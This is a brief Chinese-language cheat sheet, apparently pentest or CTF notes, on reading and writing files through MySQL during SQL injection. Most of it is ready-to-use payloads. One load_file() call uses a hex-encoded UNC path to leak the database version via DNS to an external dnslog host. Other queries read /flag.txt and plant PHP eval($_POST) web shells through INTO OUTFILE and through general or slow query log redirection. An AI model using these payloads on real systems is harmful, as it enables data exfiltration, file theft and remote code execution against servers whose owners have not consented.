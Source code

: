 - # 读写文件
	- 权限
		- MySQL 中 在在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL ,而 secure_file_priv为null 那么我们就不能导出文件，以下都建立在
		- secure_file_priv 的默认值被修改为''才能利用，且这个只能手工修改配置文件不能用sql语句，也就是想直接导出需要管理员不知道干了什么帮你修改好这个权限才行。
		- windows系统在 my.ini的[mysqld]下面加上secure_file_priv = ，linux 的在 /etc/my.cnf 同时读写权限问题就不用说了。
	- 查询读写权限
		- ```sql
		  select file_priv from mysql.user where user='root' and host='localhost';
		  select @@secure_file_priv; # 默认为NULL，不可读写
		  ```
	- `load_file`
		- ```sql
		  load_file('/flag.txt')
		  ```
		- 在mysql中load_file 会带dns查询请求
		- ```sql
		  select load_file(concat(0x5c5c5c5c,version(),0x2E66326362386131382E646E736C6F672E6C696E6B2F2F616263));
		  ```
	- `outfile`
		- ```sql
		  select * from admin where id =1 union select 1,'<?php eval($_POST[cmd]);?>',3 into outfile 'G:\\test.txt';
		  ```
	- `dumpfile`
	- 通过日志写文件
		- ```sql
		  set global general_log=on;
		  set global general_log_file='D://404.php';
		  select '<?php eval($_POST['404']) ?>';
		  ```
		- 查看当前日志文件
			- ```sql
			  show global variables like '%query_log%'
			  ```
		- 慢日志
			- ```sql
			  set global slow_query_log=1;
			  set global slow_query_log_file='D://404.php'
			  select '<?php eval($_POST['404']) ?>' or sleep(15);
			  ```